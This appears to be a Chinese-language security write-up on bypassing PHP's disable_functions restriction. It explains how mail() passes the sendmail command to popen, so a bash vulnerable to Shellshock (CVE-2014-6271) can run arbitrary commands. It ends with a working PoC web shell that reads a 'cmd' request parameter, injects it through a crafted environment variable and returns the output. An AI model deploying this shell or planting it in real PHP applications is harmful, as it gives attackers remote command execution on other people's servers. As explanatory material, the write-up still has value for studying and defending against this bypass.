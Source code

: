 看一下php manual手册中的定义

```
disable_classes string
本指令可以使你出于安全的理由禁用某些类。用逗号分隔类名。disable_classes 不受安全模式的影响。 本指令只能设置在 php.ini 中。例如不能将其设置在 httpd.conf。
```
php中有一个table存放已定义的函数
disabled_function的原理便是，将函数名从这个table删除。对于绕过disabled_function的话，
总共有几种方式


```
1、加载so文件，模块文件
2、找到生僻的函数，里面带有执行命令
3、一些第三方的漏洞，比如exim、破壳漏洞
```


绕过1: mail函数

参考 https://www.leavesongs.com/PHP/php-bypass-disable-functions-by-CVE-2014-6271.html

```
char *sendmail_path = INI_STR("sendmail_path"); 
char *sendmail_cmd = NULL;
...
if (extra_cmd != NULL) {
	spprintf(&sendmail_cmd, 0, "%s %s", sendmail_path, extra_cmd);
} else {
	sendmail_cmd = sendmail_path;
}
...
#ifdef PHP_WIN32 
  sendmail = popen_ex(sendmail_cmd, "wb", NULL, NULL TSRMLS_CC); 
#else 
  /* Since popen() doesn't indicate if the internal fork() doesn't work 
   * (e.g. the shell can't be executed) we explicitly set it to 0 to be 
   * sure we don't catch any older errno value. */ 
  errno = 0; 
  sendmail = popen(sendmail_cmd, "w"); 
#endif
```

sendmail_path是从php.ini获取过来的，默认是`/usr/sbin/sendmail -t -i`, extra_cmd 是mail函数的第五个参数


extra_cmd（用户传入的一些额外参数）存在的时候，调用spprintf将sendmail_path和extra_cmd组合成真正执行的命令sendmail_cmd 。不存在则直接将sendmail_path赋值给sendmail_cmd 。  最后调用popen执行senmail_cmd命令.


如果系统默认sh是bash，popen会派生bash进程。而之前的bash破壳（CVE-2014-6271）漏洞，直接导致我们可以利用mail()函数执行任意命令，绕过disable_functions。 

> 同样，我们搜索一下php的源码，可以发现，明里调用popen派生进程的php函数还有imap_mail，如果你仅仅通过禁用mail函数来规避这个安全问题，那么imap_mail是可以做替代的。当然，php里还可能有其他地方有调用popen或其他能够派生bash子进程的函数，通过这些地方，都可以通过破壳漏洞执行命令的。

poc:

```
<?php 
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @mail.c:283 
   $tmp = tempnam(".","data"); 
   putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1"); 
   // In Safe Mode, the user may only alter environment variableswhose names 
   // begin with the prefixes supplied by this directive. 
   // By default, users will only be able to set environment variablesthat 
   // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive isempty, 
   // PHP will let the user modify ANY environment variable! 
   mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actuallysend any mail 
   $output = @file_get_contents($tmp); 
   @unlink($tmp); 
   if($output != "") return $output; 
   else return "No output, or not vuln."; 
} 
echo shellshock($_REQUEST["cmd"]); 
?>
```
